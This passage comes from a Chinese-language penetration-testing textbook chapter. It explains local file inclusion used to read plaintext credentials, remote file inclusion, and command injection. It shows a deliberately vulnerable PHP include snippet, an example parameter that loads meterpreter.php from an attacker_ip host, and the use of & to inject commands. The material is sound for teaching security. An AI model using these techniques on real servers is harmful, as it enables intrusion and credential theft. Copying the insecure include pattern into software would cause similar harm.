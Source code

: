 如图 14-17 所示，我们现在可以访问明文的用户名和密码。现在我们知道为什么之前的 Xpath 注入让我们以用户*Mike*身份登录：*Mike*是文件中的第一个用户。

这是使用代理工具非常有用的一个典型例子。一个只有浏览器的用户只能点击他或她能看到的文件，即展示的新闻订阅内容。另一方面，借助代理工具，我们能够看到请求从文件系统中请求特定文件。通过在 Burp Proxy 中手动更改请求中的文件名，我们能够看到其他敏感文件。毫无疑问，开发人员没有考虑到用户可以请求任何文件的可能性，因此未曾限制用户通过新闻订阅能够访问的文件。

![认证信息](img/httpatomoreillycomsourcenostarchimages2030458.png)图 14-17. 认证信息

更糟糕的是，我们不仅仅局限于来自 Web 应用程序的文件。我们可以加载 IIS_USER 具有读取权限的任何文件。例如，如果你在 C 盘创建一个名为*secret.txt*的文件，你可以通过新闻订阅功能加载它。只需在 Burp Suite 中的请求中替换你想要的文件。如果我们能够找到上传文件到 Web 应用程序的方法，我们甚至可以利用 LFI 漏洞在 Web 服务器上执行恶意代码。

## 远程文件包含

远程文件包含（RFI）漏洞允许攻击者加载并执行托管在其他地方的恶意脚本，在脆弱的服务器上执行。在 第八章中，我们使用 XAMPP 中的开放 phpMyAdmin 界面写了一个简单的 PHP Shell，最终将 Meterpreter 的 PHP 版本写入了 Web 服务器。虽然我们这里没有上传文件到服务器，但攻击方式相似。如果我们能欺骗脆弱的服务器执行一个远程脚本，就能在底层系统上运行命令。

我们的网站没有远程文件包含漏洞，但这里展示了一个简单的脆弱 PHP 代码作为示例。

```
<?php
include($_GET['file']);
?>
```

攻击者可以将恶意的 PHP 脚本（例如我们在 第八章 中使用的 *meterpreter.php* 脚本）托管在自己的 Web 服务器上，并请求带有文件参数的页面，参数设置为 *http://<attacker_ip>/meterpreter.php*。RFI 漏洞将导致 *meterpreter.php* 被 Web 服务器执行，即使它托管在其他地方。当然，我们的示例应用程序是 ASP.net，而非 PHP，但 Msfvenom 可以为此类应用程序创建 ASPX 格式的有效载荷。

## 命令执行

如前所述，*Newsletters* 文件夹中包含一个名为 *Mike@Mike.com* 的文件夹。从逻辑上讲，这表明该网站可能包含类似的文件夹，存放所有已注册接收简报的用户的电子邮件地址。应用程序的某些部分必须在用户注册或订阅简报时创建这些文件夹。该应用程序的代码可能正在运行命令，在文件系统中创建这些文件夹。也许，正因为缺乏输入验证，我们可以运行开发者本来不打算让我们运行的其他命令。

如 图 14-18 所示，网页应用的右下角包含一个注册简报的表单。我们怀疑，当我们输入电子邮件地址时，系统会在 *newsletters* 文件夹中为该电子邮件地址创建一个文件夹。

我们猜测，电子邮件地址输入被传递给一个系统命令，用于在 *newsletters* 文件夹中创建一个目录。如果开发者没有正确清理用户输入，我们可能能够通过使用 & 符号来运行额外的命令。

![简报注册](img/httpatomoreillycomsourcenostarchimages2030460.png.jpg)图 14-18. 简报注册
